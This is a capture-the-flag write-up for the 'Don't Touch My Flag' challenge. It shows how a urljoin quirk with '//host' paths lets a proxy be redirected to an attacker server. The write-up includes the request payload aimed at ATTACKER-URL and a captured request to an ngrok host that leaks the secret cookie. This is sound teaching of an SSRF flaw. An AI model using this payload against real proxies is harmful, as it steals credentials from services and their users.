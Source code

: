 # Don't Touch My Flag

> I found a flag on a server, though access seems to be protected by a secret. Being generous, I decided to share the flag with you through my proxy server.\
> \
> Oh, the censoring? Sorry about that, I'll remove it after this CTF is over.\
> \
> http://chals.ctf.sg:40101\
> http://chals.ctf.sg:40102\
> \
> author: JustinOng

This challenge consists of two servers - a proxy and a backend.

Let's take a look at how the proxy makes the request to the backend. The secret token is added to the cookies, and a user-controlled `uri` is joined to the backend URL using `urllib.parse.urljoin`.

```python
@app.route("/get")
def get():
    uri = request.args.get("uri", "/")
    full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)

    r = requests.get(full_url, cookies={
        "secret": secret
    })
    if r.status_code != 200:
        return f"Request failed: received status code {r.status_code}"

    censored = censor(r.text)
    return censored
```

But `urljoin` doesn't fare well when presented with a malformed path.

```python
>>> from urllib.parse import urljoin
>>> urljoin("http://www.example.com", "test")
'http://www.example.com/test'
>>> urljoin("http://www.example.com", "/test")
'http://www.example.com/test'
>>> urljoin("http://www.example.com", "//test")
'http://test'
```

This allows us to get the proxy to make a request to our own server:

```http
GET /get?uri=//ATTACKER-URL HTTP/1.1
Host: chals.ctf.sg:40101
```

In the received request, we get the secret cookie.

```http
GET / HTTP/1.1
Host: ae64-42-60-216-15.ngrok.io
User-Agent: python-requests/2.27.1
Accept: */*
Accept-Encoding: gzip, deflate
Cookie: secret=8byEt7F60cCSRpQs1jeAXQqByOsK5P5b
X-Forwarded-For: 178.128.25.242
X-Forwarded-Proto: http

```

Now we can send a request directly to the backend, which checks our secret before giving us the flag!

```python
@app.route("/flag")
def get_flag():
    if request.cookies.get("secret") != secret:
        return "\N{Black Flag}"

    return flag
```

The flag is `CTFSG{d0nT_toUcH_mY_c00k13s}`
